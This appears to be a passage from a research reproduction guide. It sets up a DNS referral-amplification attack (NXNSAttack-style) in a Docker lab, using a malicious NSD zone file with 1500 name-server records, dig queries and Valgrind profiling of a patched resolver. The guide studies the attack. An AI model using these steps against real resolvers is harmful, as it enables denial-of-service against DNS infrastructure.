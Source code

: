 The malicious referral response should include a long list of name servers, in order to create such a response, the `/env/nsd_attack/home.lan.forward` zone file needs to have 1500 records per one malicious request. From the Malicious server, run
```bash
cp /env/nsd_attack/home.lan.forward /env/nsd_attack/home.lan.forward.back
cp /env/reproduction/home.lan.forward /env/nsd_attack
```
to load the zone file for the malicious authoritative server. Then run 
```bash
cd /env/nsd_attack
nsd -c nsd.conf -d -f nsd.db
```
to turn on the attack server.

In the Root server terminal, run
```bash
cd /env/nsd_root
nsd -c nsd.conf -d -f nsd.db
```
to turn on the root server

From Client 1, query the resolver with a malicious query:
```bash
dig attack0.home.lan.
```
The malicious referral response contains 1500 records that delegate the resolution of `attack0.home.lan` to a DNS non-responsive server. You will not receive a resolution for the name `attack.home.lan` because the resolver was directed to resolve the name at a server incapable of responding to the DNS queries. Instead, you will see a message with `status: SERVFAIL`:
```
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 26296
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
```

Stop the resolver (Ctrl+C) and restart it with the Valgrind tool:
```bash
cd /etc
valgrind --tool=callgrind --callgrind-out-file=benign_nxns_patched named -g -c /etc/named.conf
```

Now query the resolver with a legitimate query:
```bash
dig test.home.lan.
```
You should receive a response with the IP address of `test.home.lan` (127.0.0.252).
```
;; QUESTION SECTION:
;test.home.lan.                 IN      A

;; ANSWER SECTION:
test.home.lan.          86400   IN      A  127.0.0.252
```
After receiving the response, stop the resolver.

Next we'll copy the results files from the docker container to the host machine. From the host, run
```bash
sudo docker cp $CONTAINER_ID:/etc/mal_nxns_patched $(eval echo ~)/mal_nxns_patched
sudo docker cp $CONTAINER_ID:/etc/benign_nxns_patched $(eval echo ~)/benign_nxns_patched
done
```
After copying the files, run
```bash
sudo chown $USER $(eval echo ~)/mal_nxns_patched
sudo chown $USER $(eval echo ~)/benign_nxns_patched
```
to add permissions to open the files.
